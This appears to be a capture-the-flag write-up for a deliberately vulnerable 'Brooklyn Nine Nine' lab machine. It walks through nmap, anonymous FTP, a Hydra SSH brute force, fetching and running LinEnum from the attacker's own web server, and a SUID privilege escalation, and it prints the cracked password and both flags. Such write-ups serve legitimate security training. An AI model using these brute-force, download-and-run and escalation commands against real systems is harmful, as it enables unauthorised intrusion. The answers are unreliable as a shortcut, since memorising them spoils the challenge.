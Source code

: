 

Start off with nmap default scripts (-sC), show versions (-sV) and output all formats (-oA).
`sudo nmap -sC -sV -oA nmap 10.10.136.175`

![[attachments/Pasted image 20231123102936.png)
We have 3 ports
21: FTP server
22: SSH server
80: HTTP 

There is a file with a note for 'jake' on the FTP server and I can login anonymously. When prompted with a username, I can put 'anonymous' and leave the password empty when prompted (just press enter). 
After login, I can see there is a file there and can use the 'less' command to show the content of the text file: 
![[attachments/Pasted image 20231123103006.png)

I know now that user 'jake' has a weak password and that there are 3 users in total:
- jake
- amy
- holt
As seen in amy's message, it looks like the user holt is some sort of admin. 

After, I visited the webpage, where there is an image of Brooklyn nine nine, a television show. I googled the main character, who is called 'jake'. If I would not have found the note, I would have tried to use the username jake as well, but we know with the message on the FTP server we definitely have something here. We also find a note on the FTP server being stored there for Jake.

Now that we know the usernames, I can try to use Hydra to brute force into the SSH server. As only jake has a weak password, I will only try to brute force his credentials.

`hydra -l jake -P /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt 10.10.136.175 -t 4 ssh`

In the meantime, I also kick off a gobuster to see if we can find any other directories in the meantime.
`gobuster dir -u http://10.10.136.175 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

The gobuster didn't result into anything, but Hydra did find a password for the user jake:
![[attachments/Pasted image 20231123103050.png)

I can now login to the SSH server with: 
Username: jake
Password: 987654321
`ssh jake@10.10.136.175`

We are now logged into the SSH server!
![[attachments/Pasted image 20231123103106.png)

I can now try to move to other folders. When I move up to the home directory, the folders for amy and holt are there. If we look into holt's directory and list all files, we find 
## Flag 1 user.txt: ee11cbb19052e40b07aac0ca060c23ee
![[attachments/Pasted image 20231123103128.png)

Now I need to escalate my privileges to find the root.txt flag.
I will start getting the LinEnum package onto the SSH server. The script I used [can be found here](https://github.com/rebootuser/LinEnum.git)
Next, I setup a local webserver from where I can grab the script from within the SSH server. First move back to jake's folder, as we don't have permissions in holt's folder.
On my local terminal: `python3 -m http.server`
On the SSH server: `wget 10.10.137.228:8000/LinEnum.sh`
I now have the file, but need to make it executable first with the following command:
`chmod +x LinEnum.sh`

All steps are in the following image:
![[attachments/Pasted image 20231123103141.png)

Now I can run the LinEnum script with:
`./LinEnum.sh`

After the enumeration, I can see that there is an interesting SUID file
![[attachments/Pasted image 20231123103201.png)

Looking at [GTFO bins](https://gtfobins.github.io/), there is an exploit I can try to run to get sudo privileges:
![[attachments/Pasted image 20231123103212.png)

After running the command, **we get root access**. To now stabelize the shell and to have autocomplete, I used the following command:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

After this, I was able to access the root directory and find the second and last flag:
### **root.txt: 63a9f0ea7bb98050796b649e85481845**
![[attachments/Pasted image 20231123103222.png)

Thanks for reading!

